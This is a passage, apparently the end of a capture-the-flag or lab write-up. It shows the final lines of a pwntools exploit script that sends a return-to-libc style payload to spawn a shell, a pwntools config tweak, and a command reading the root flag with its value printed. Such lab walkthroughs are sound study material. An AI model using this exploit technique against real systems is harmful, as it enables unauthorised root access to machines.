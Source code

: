 ```python
payload += p64(shell)
payload += p64(sys)
payload += p64(0x0)


exploit.clean()
exploit.sendline("2")
exploit.sendline(payload)
exploit.interactive()
```

![[Pasted image 20250424145727.png]]

If we get this, we need to go to `~/.pwn.conf` and add:

```
[update]
interval=never
```

Let's run the script again:

![[Pasted image 20250424145803.png]]

There we go, let's read root flag and finish:

```
$ cat /root/root.txt
f21979de76c0302154cc001884143ab2
```

![[Pasted image 20250424145835.png]]

